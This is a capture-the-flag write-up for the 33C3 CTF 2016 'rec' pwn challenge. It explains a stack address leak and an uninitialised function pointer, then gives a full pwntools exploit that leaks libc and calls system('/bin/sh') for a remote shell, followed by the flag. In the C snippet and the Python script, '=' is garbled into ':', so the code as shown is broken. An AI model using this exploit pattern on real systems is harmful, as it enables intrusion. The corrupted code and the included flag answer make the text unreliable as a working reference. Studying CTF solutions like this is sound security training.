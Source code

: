 ```yaml
---
type: ctf
title : 33C3 CTF 2016 - rec
tags: [33C3 CTF, rec]
date : 2016-12-30
author: Eno Leriand
featuredImage: https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRZdOkBR-WeQBL8Yi2zqZv0E7BlKhSsl0c-8fWhpDilwmq3G2ZfNWcXAgesT-dINcnftiw&usqp=CAU
---
```


**Category:** pwn
**Points:** 200

32 bit ELF, with all the protection enabled.

program menu:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 
```
* Take note: input a note
* Read note: output the note
* Polish: do the `sum` operation or the elementary arithmetic (prefix expression)
* Infix: do the elementary arithmetic (infix expression)
* Reverse Polish: do the elementary arithmetic (postfix expression)
* Sign: input a number and see if it is a positive/negative number

First we found that the `Read note` function doesn't work well:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 0
Your note: 123
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 1
Your note:�VXV`�s��`XV     <-- WTF?
```

This is because the program use a stack address as the `note`'s buffer. After we take a note and leave the function, the buffer will be filled with some (useful) addresses (due to the function epilogue). And because of this, we're able to leak the stack address & text's base address.

Now it's time to try controlling the EIP. There's a program logic vulnerability in the `sign` function:
```c 
  if ( num <= 0 )
  {
    if ( num < 0 )
      v1 : (void (*)(void))puts_negative;
  }
  else
  {
    v1 : (void (*)(void))puts_positive;
  }
  v1();
```
It handles both positive & negative numbers. **But what about `0`** ?
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 5
0
[1]    40091 segmentation fault (core dumped)  ./rec
```
The reason why the program crash is because the program did not assigned a value to `v1` (since it did not handle `0`), so when it ran to line `v1()`, it will set the EIP to `0x0` and crash the program. Let's check the assembly code:
```
0x56555d3b:  mov    eax,DWORD PTR [ebp-0x20]   <-- &v1 : ebp-0x20
0x56555d3e:  call   eax
```
It shows that if we can control the value of `[ebp-0x20]`, we'll be able to control the EIP and hijack the program control flow.

I found that the stack frame of the `sign` function is "higher" (or "lesser") than the other functions. If we can't "reach that high" in other functions, we won't be able to control the function pointer. 

After done some fuzzing, I finally found that in the `Polish` function, if we do the `sum` operation and keep entering number, the program will keep pushing number to the stack, making us able to "reach the height" and control the function pointer (and the parameters !) in the `sign` function.

So here's how we gonna exploit the service:
1. Take a note & Read the note, leak the text's base address
2. Use `Polish`'s `sum` operation to control the function pointer & the function parameter. We first set the function pointer to `puts` and the parameter to `__libc_start_main@got` (there's no `.got.plt` due to the **FULL RELRO** protection)
3. Goto `sign` function and input `0`, it will call `puts(__libc_start_main@got)` and gave us the libc's base address
4. Repeat step 2, this time we set the function pointer to `system` and the parameter to "pointer to /bin/sh"
5. Goto `sign` function and input `0`, call `system("/bin/sh")` and get the shell

Here's the exploit. The libc's information are provided by [libc-database](https://github.com/niklasb/libc-database)
```python exp_rec.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time
import numpy

HOST : "78.46.224.74"
PORT : 4127
ELF_PATH : "./rec"
LIBC_PATH : ""

# setting 
context.arch : 'i386'
context.os : 'linux'
context.endian : 'little'
context.word_size : 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level : 'INFO'

elf : ELF(ELF_PATH)

def take_note(note):
    r.sendlineafter("> ", "0")
    r.sendlineafter("note: ", note)

def read_note():
    r.sendlineafter("> ", "1")

def polish_sum(nums):
    r.sendlineafter("> ", "2")
    r.sendlineafter("Operator:", "S")
    for num in nums:
        print "adding:", num
        r.sendlineafter("Operand:", str(num))

    r.sendlineafter("Operand:", ".")

def sign(num):
    r.sendlineafter("> ", "5")
    r.sendline(str(num))


if __name__ == "__main__":

    r : remote(HOST, PORT)
    #r : process(ELF_PATH)
    
    take_note("123")
    read_note()

    r.recvuntil("note: ")
    fptr_addr : u32(r.recv(4)) - 0x350 # where the function pointer be loaded
    text_base : u32(r.recv(4)) - 0x6fb
    puts : text_base + 0x520
    lsm_got : text_base + 0x2fe0
    puts_got : text_base + 0x2fd8
    
    log.success("fptr_addr: "+hex(fptr_addr))
    log.success("text_base: "+hex(text_base))

    nums : [i for i in xrange(0x63)] + [puts, lsm_got]
    polish_sum(nums)

    sign(0) # this will call puts(lsm_got)
    lsm_addr : u32(r.recv(4))
    #########################################
    #$ ./dump libc6-i386_2.24-3ubuntu2_amd64
    #offset___libc_start_main : 0x00018180
    #offset_system : 0x0003a8b0
    #offset_str_bin_sh : 0x15cbcf
    #########################################
    system_addr : lsm_addr + 0x22730 
    bin_sh : lsm_addr + 0x144a4f 
	
    log.success("lsm: "+hex(lsm_addr))
    log.success("system: "+hex(system_addr))
    log.success("bin_sh: "+hex(bin_sh))

    nums : [i for i in xrange(0x63)] + [numpy.int32(system_addr), numpy.int32(bin_sh)]
    polish_sum(nums)
    sign(0) # this time will call system("/bin/sh")
    
    r.interactive()
```

The flag is in `/challenge/flag.txt`

flag: `33C3_L0rd_Nikon_would_l3t_u_1n`
